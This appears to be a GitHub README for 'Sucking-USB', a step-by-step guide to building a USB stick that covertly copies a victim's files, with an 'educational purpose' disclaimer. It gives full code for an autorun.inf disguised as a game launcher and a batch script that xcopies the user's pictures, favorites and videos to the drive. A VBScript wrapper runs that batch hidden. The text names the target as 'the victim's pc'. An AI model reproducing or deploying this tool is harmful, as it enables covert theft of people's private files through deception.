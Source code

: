 # Sucking-USB

--------------------------------------"DISCLAIMER:-ITS JUST FOR EDUCATIONAL PURPOSE"-------------------------------------------




Its a code to make pendrive copy all data of the victim's pc and paste it to the USB.




--------------------step 1------------- 

insert you pendive and open notepad



---------------------Step 2--------------------------

[autorun] 
icon=drive.ico
open=launch.bat
action=Click ok to Run game for Windows
shell\open\command=launch.bat

When finished Save As.. and name file "autorun" change
the extention to .inf

----------------------Step 3-----------------------

@echo off
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
@echo off 
cls

Save as.. and name "file" change extention to .bat

------------Step 4-----------------

CreateObject("Wscript.Shell").Run """" & 
WScript.Arguments(0) & """", 0, False

save as.. and name "invisible" change the extension to .vbs

Step 5:

wscript.exe \invisible.vbs file.bat 

Save as.. "launch" change extension to .bat

-------------------step 5------------------

Also create a folder name "ALL" in the pendrive
________________________________________________________________


At last just make the "Launch.bat" auto run on plugging the USb by "AUTORUN SOFTWARE CREATOR" software







